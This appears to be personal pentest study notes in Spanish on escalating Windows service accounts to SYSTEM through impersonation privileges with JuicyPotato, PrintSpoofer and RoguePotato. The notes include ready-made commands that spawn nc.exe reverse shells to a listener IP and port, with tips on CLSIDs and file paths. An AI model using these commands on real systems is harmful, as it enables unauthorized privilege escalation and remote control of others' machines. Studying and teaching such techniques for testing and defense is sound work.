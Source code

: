 
## 🔑 Requisitos clave
- **SeImpersonatePrivilege**: permite suplantar el token de otro proceso.
- **SeAssignPrimaryTokenPrivilege**: permite asignar un token primario a un proceso.
- Estas capacidades se pueden usar para escalar de un servicio (como MSSQL o IIS) a **NT AUTHORITY\SYSTEM**.

## 🧪 Métodos de escalada utilizados

### 1. JuicyPotato

- **Funciona en**: versiones anteriores a Windows 10 1809 / Server 2019.
- **Requiere**: SeImpersonate o SeAssignPrimaryToken habilitado.
- **Técnica**: Abusa de DCOM/NTLM reflection para ejecutar comandos como SYSTEM.
- **Comando típico**:
```cmd	
JuicyPotato.exe -l <puerto> -p <programa> -a "<argumentos>" -t * 
```

Ejemplo:
```cmd
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c nc.exe IP PUERTO -e cmd.exe" -t *
```
NOTA: Usa un  clsid por defecto, si no funciona usar uno buscando aquí hay una lista por sistema: https://ohpe.it/juicy-potato/CLSID/
Ejemplo:
```powershell
./juicy.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c nc.exe IP PUERTO -e cmd.exe" -t * -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```

**NOTA IMPORTANTE:** En este caso con ruta relativa de nc.exe no funcionó y **tuve que poner la absoluta** de la ubicación dónde subí el nc.exe:
```cmd
potato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c C:\TEMP\nc.exe 10.10.14.112 5555 -e cmd.exe" -t *
```
### 2. PrintSpoofer (10 1809+ y Server 2019+)

- **Funciona en**: Windows 10 1809+ y Server 2019+ (donde JuicyPotato ya no sirve).
    
- **Requiere**: SeImpersonatePrivilege habilitado.
    
- **Técnica**: Abusa de privilegios de impresión y llamadas a `CreateProcessAsUser()` para obtener SYSTEM.
    
- **Comando típico**:

```cmd
PrintSpoofer.exe -c "nc.exe IP PUERTO -e cmd"
```

### 3. RoguePotato (mencionado brevemente)

- **Funciona en**: versiones modernas donde JuicyPotato no funciona.
    
- **Similar a**: JuicyPotato, pero con mejoras en la forma en que obtiene el token SYSTEM usando pipes anónimos y Named Pipe Impersonation.

## 📌 Consideraciones

- Estas técnicas suelen explotarse tras comprometer una aplicación que corre con permisos intermedios (como MSSQL o IIS).
    
- Siempre verificar los privilegios con `whoami /priv` antes de intentar la escalada.
    
- Elegir la herramienta correcta según la **versión del sistema operativo**.